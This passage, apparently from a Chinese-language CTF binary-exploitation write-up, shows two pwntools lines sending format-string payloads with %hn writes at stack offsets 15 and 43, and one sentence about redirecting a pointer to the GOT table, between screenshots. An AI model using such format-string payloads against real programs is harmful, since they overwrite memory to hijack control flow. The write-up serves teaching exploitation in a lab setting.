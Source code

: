 ```bash
sla('start','%'+str(addr1)+'c%15$hn')
```

[![](assets/1701678450-09f70fe3bafd34904392bb44c64642f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129211042-b3305558-8eb8-1.png)  
然后我们去找下面这个偏移，去修改成 got 表

[![](assets/1701678450-00be00720d4e4f1a26d02e8619eeec91.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129211050-b7a80a18-8eb8-1.png)

```bash
sla('start','%'+str(0x4020)+'c%43$hn')
```

[![](assets/1701678450-8d64e1fcbcd1f05d193fa3e97bd0e21f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129211103-bfe41bd6-8eb8-1.png)
